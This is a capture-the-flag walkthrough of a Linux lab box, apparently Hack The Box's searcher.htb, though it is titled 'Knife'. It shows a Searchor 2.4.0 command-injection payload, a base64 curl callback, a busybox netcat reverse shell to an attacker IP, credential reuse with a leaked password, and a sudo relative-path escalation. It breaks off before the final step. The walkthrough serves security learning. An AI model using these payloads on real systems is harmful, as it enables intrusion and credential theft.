- Machine Name: Knife
- OS type: Linux
- Difficulty: Easy

## Learn:

> ***Don’t overthink and over complicate the simple things as in this machine we don’t even need any port forwarding it’s only using proxy_pass thing so we can simple add the entry in /etc/hosts file***
> 

> ***also i found password in config file but didn’t tried it svc user, note: try founded password on all users’s.***
> 

### Port Scanning - Service & Version Enumeration

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

let’s start our enumeration from port 80 http, open webbrowser and visit the site.



it redirect us to the [http://searcher.htb/](http://searcher.htb/) let’s add this into our /etc/hosts file

`sudo nano /etc/hosts` 

```bash
10.10.11.208 searcher.htb
```



now let’s visit the site again



looking at the homepage, we found that this is the searchor project from github



[https://github.com/ArjunSharda/Searchor](https://github.com/ArjunSharda/Searchor)

let’s search for any known vulnerability and exploit for searchor 2.4.0 and we found it it vulnerable to Arbitrary command injection https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

`',**import**('os').system('echo <base64 encoded command>|base64 -d|bash -i')) # junky comment` this is the exploit code to inject into query parameter as shown in below screenshot



let’s check if the exploit is working correctly or not, let’s start http server on kali machine using `python3 -m http.server 80` 

encode curl command into base64 that will send curl request to our http server



`',**import**('os').system('echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMTQvaGFja2VyCg== |base64 -d|bash -i')) # junky comment` this  is the final code, that we need to inject into query parameter and send request via burp, curl or from the web browser



Bingo!, server says ‘hacker’ 😉

it’s time for shell, let’s use the `busybox nc 10.10.14.14 443 -e /bin/bash` very easy method to get rev shell, as many linux doesn’t have netcat with -e compatibility so we’ll use busybox to get -e option



start reverse shell listener using `rlwrap -r nc -nvlp 443` send payload



Bingo! fresh shell, you smell that!!

now it’s looks ugly  right, let’s get proper tty shell, first we’ll check if python3 is available on the  machine or it’s just python using `which python3` 



nice we have python3, run `python3 -c 'import pty;pty.spawn("/bin/bash");'`



user.txt can be found at /home/svc/user.txt

## PrivEsc

let’s start enumerating system for the possible privesc attack vector, we checked SUID, CornJobs, /etc/passwd file permissions, sudo  permissions. NO LUCK!!

then we search for any locally running application or service we run `ss -tunlp` to list the open ports on the machine



we assume that the port 5000 is for the searcher app as mentioned python3 as user, port 3000 caught my attention, let’s curl and check what it is



application title : Gitea, let’s search on google what this gitea is, we found it is DevOps platform → https://about.gitea.com/

let’s first checkout the apache conf file to see where does it points to.



we can see that it is not running internally we can access it from the port 80 as well we just need to use the the gitea.sercher.htb hostname to access it hahaha, let’s add this hostname into /etc/hosts file



let’s open [http://gitea.searcher.htb](http://gitea.searcher.htb) into browser



further enumeration revelas credentials for the Gitea in /var/www/app/.git/config



let’s login to website using this credentials



let’s check for password reuse, what if we use same password for the svc to sudo -l as well



Whoop!, let’s check the permissions for this file



no write permissions, hmm we can see that! but in sudo command there’s * means we need to pass some agrs after script maybe



let’s just try docker-ps 

```bash
sudo python3 /opt/scripts/system-checkup.py docker-ps
```



https://docs.docker.com/reference/cli/docker/inspect/ so it clears that docker-inspect is the docker cli command 



let’s check the mysql container 

```bash
sudo python3 /opt/scripts/system-checkup.py docker-inspect {{json .Config}} 
```



for proper formatting, let’s just use `jq` command



We found mysql credentials. let’s login to mysql, before login into mysql let’s first try login as administrator with cody’s password, NO SUCCESS what about DB paassword `yuiu1hoiu4i5ho1uh`



Bingo!!, we do have access as administrator now, let’s check the [system-checkup.py](http://system-checkup.py) script as it can be run by our user as sudo

[https://app.notion.com](https://app.notion.com)

we found that if we pass argument full-checkup it will run ./full-checkup.sh however it doesn’t specified full path here so it will try to run from the current working directory from we ran the command

[https://app.notion.com](https://app.notion.com)

let’s create a [full-checkup.sh](http://full-checkup.sh) in /dev/shm or /tmp or /home/svc, means directory should be writable by our user 



make it executable via `chmod +x [full-checkup.sh](http://full-checkup.sh)` command

[https://app.notion.com](https://app.notion.com)